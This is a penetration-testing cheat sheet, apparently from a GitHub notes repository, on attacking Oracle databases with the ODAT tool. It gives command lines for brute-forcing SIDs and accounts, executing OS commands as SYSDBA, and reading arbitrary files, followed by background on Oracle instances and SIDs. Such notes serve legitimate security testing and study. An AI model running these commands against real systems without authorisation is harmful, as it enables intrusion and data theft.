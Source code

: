 # Oracle Database

#### Security notes

- Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of **11g** this is not the case.
- Accounts are typically subject to an account lockout on too many password attempts ranging from 5 to 10

#### Tools

[ODAT](https://github.com/quentinhardy/odat) is an open source penetration testing tool that tests the security of Oracle Databases remotely.

The all module is the first module that should be used when you meet an Oracle Database.
It is very useful when you want to known what you can do on a database server with a valid SID or no, with a valid Oracle account or no.

```bash
./odat.py all -s 192.168.1.254 -p 1521 --accounts-files accounts/logins.txt accounts/pwds.txt
./odat.py all -s 192.168.1.254 -p 1521 -d ORCL # If you known a SID
```

If you have an account

```bash
./odat.py all -s 192.168.1.254 -p 1521 -d ORCL -U SYS -P password # If you know a user (here SYS account of ORCL SID)
/usr/bin/sqlplus64 username/password@IP:PORT/SID # Connecting to an Oracle Database
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv # Code Execution
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba # Arbitrary File Read
```

**Note that it will perform bruteforce by default with is own list**


- If ODAT founds at least one SID (e.g. ORCL), it will search valid Oracle accounts.

- For each valid account (e.g. SYS) on each valid instance (SID), ODAT will give you what each Oracle user can do (e.g. reverse shell, read files, become DBA).

*If you don't know, now you know: [Oracle Database](https://docs.oracle.com/cd/E11882_01/network.112/e41945/concepts.htm#NETAG176)*

A database has at least one **instance**. 
An instance is comprised of a memory area called the System Global Area (SGA) and Oracle background processes. 
The memory and processes of an instance efficiently manage the associated database's data and serve the database users.

The instance name is specified by the **INSTANCE_NAME** initialization parameter. 
The instance name defaults to the Oracle system identifier (SID) of the database instance.

The most common SID is **ORCL**

Account are link to SID.
